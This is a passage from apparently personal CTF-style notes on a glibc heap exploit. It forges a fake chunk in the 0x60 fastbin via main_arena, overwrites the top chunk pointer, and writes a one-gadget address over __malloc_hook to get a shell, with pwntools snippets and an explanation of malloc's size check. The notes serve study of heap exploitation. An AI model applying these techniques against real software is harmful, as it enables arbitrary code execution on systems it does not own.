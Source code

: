 - if we setup our next stage of our exploit like this:
```python
malloc(0x58, p64(libc.sym.main_arena + 0x10))
malloc(0x58, b"junk")
malloc(0x58, b"junk")
malloc(0x58, b"\x00"*64 + p64(libc.sym.__malloc_hook))
```
- any next call to malloc will fail and cause an EOF (end of file) and it'll segfault because we hit the else if block, we enter `malloc_consolidate`() and then it will crash because we segfault.

- why is this happening?
	- this is happening because the size is NOT greater or equal to nb+MINSIZE
	- the top chunk pointer in the arena gets size checked and we need to pass that size check, pretty simple.
```c
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
```
- we want to hit the if block and we want our size to be greater or equal to `nb+MINSIZE`.

- so lets review our last stage of the exploit.
```python
malloc(0x58, p64(libc.sym.main_arena + 0x10))  
malloc(0x58, b"junk")  
malloc(0x58, b"junk")  
malloc(0x58, b"\x00"*64 + p64(libc.sym.__malloc_hook-36))
malloc(0x50, b"B"*20 + p64(libc.address+0xe1fa1))
malloc(0x18, b"")
```
- this will link fake chunk into the 0x60 fastbin & overwrite the top pointer in the main arena.

- and we can use this to write to the malloc hook and achieve code execution dropping us into a shell using our one gadget.

- this part is us linking the fake chunk into the 0x60 fastbin, the two junk malloc calls are to ensure that the important chunk is up next.
```python
malloc(0x58, p64(libc.sym.main_arena + 0x10))  
malloc(0x58, b"junk")  
malloc(0x58, b"junk")  
```

![](https://i.imgur.com/M7As52c.png)
- here we see what it looks like when we only malloc that fake chunk `WITHOUT THE JUNK MALLOC CALLS` we wanna create two more malloc calls to ensure that the important chunk is up next.

- why `p64(__libc.sym.main_arena+0x10)`? what're we doing here?
	- since heads of the fastbins live in the main arena our distance is equal to the `main_arena+0x10` is where our fake chunk is.
- ![](https://i.imgur.com/F1YCe9R.png)
	- here we see us linking the fake chunk into the 0x60 fastbin
- ![](https://i.imgur.com/Go1JHRZ.png)
	- here we see the fake size field we made, so you now see why we're using main_arena+0x10.

```python
malloc(0x58, b"\x00"*64 + p64(libc.sym.__malloc_hook-36))
malloc(0x50, b"B"*20 + p64(libc.address+0xe1fa1))
malloc(0x18, b"")
```
- we wanna use a relative address to the malloc hook because if we do not and we write it we fail the size check as we talked about earlier.
